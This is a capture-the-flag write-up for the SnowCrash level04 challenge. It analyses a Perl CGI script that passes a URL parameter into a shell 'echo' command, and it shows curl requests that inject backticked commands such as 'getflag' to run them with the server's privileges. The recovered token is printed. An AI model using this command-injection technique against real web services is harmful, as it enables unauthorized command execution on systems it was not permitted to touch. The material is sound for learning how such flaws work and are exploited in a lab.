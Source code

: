 # level04
_The ritual_ :
- `pwd`: `/home/user/level04`
- `id`: `uid=2004(level04) gid=2004(level04) groups=2004(level04),100(users)`
- `ls -la`:
```sh
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
```
- `find / -user flag04 2> /dev/null`:
```sh
/var/www/level04
/var/www/level04/level04.pl
/rofs/var/www/level04
/rofs/var/www/level04/level04.pl
```

## 2 importants things :
- There is a `perl` script where I am `level04.pl` and here's the content :
```pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
This script execute a `CGI` script with what we given in argument.
- This folder `/var/www/level04/` say a server is running and the file `level04.pl` is in it.

_What happend if I execute it ?_
```sh
level04@SnowCrash:~$ perl level04.pl
Content-type: text/html


level04@SnowCrash:~$
```
_Meh... logic... I can try to `curl` this address in comment `localhost:4747`._
```sh
level04@SnowCrash:~$ curl http://localhost:4747

level04@SnowCrash:~$
```
## WHAT DOES THE SCRIPT DO ?
- `# localhost:4747 ` : the address of the server.
- `use CGI qw{param};` : import the function `param` from the module `CGI`
- `print "Content-type: text/html\n\n";` : Sends the HTTP header indicating that the content is HTML for the `CGI` script.
- `sub x` : declaration of the `x` function.
- `$y = $_[0];` : the variable `y` take the first argument as value.
- ``print `echo $y 2>&1`;`` : execute the command `echo` with the first argument.
- `x(param("x"));` : launch the function `x` with the function `param` as parameter, and `param` take `x` as variable to take the argument.

### Conclusion
- if I `curl` this address `http://localhost:4747/?x=Hello"` :
```sh
level04@SnowCrash:~$ curl http://localhost:4747/?x=Hello
Hello
level04@SnowCrash:~$
```
I have the output of the command `echo` in the script.

**_LET'S GET THE FLAG_**
```sh
level04@SnowCrash:~$ curl http://localhost:4747/?x=getflag
getflag
level04@SnowCrash:~$
```
_Yes it print `getflag`... BUT if I put a semi-colon `;`?_
```sh
level04@SnowCrash:~$ curl http://localhost:4747/?x=; getflag

Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
level04@SnowCrash:~$
```
- Adding a `;` says to the shell another command has to be executed, and I can execute what I want to execute after the ``print `echo $y 2>&1`;`` : it's called **CODE INJECTION**

_If I use getflag in my terminal ?_
```sh
level04@SnowCrash:~$ getflag
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
level04@SnowCrash:~$
```
**A thing has to be known** : when I pass `getflag` in argument, the command is executed in the client-side :
```sh
level04@SnowCrash:~$ curl http://localhost:4747/?x=; pwd

/home/user/level04
level04@SnowCrash:~$
```

**BUT we can execute it directly on the server-side** and show to the client  :
```sh
level04@SnowCrash:~$ curl http://localhost:4747/?x=\`pwd\`
/var/www/level04
level04@SnowCrash:~$
```
_Okay, now I know that, what can I execute in the server-side ?..._
```sh
level04@SnowCrash:~$ curl http://localhost:4747/?x=\`getflag\`
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
level04@SnowCrash:~$
```
## LEZGOOOOOOO

<u>Explenations</u> : the server has more permission than the user `level04` and can execute the command `getflag`.

- Let's login to `level04` directly :
```sh
level04@SnowCrash:~$ su level05
Password:
level05@SnowCrash:~$
```
# level04 complet !
![yeah](../../assets/yeah.gif)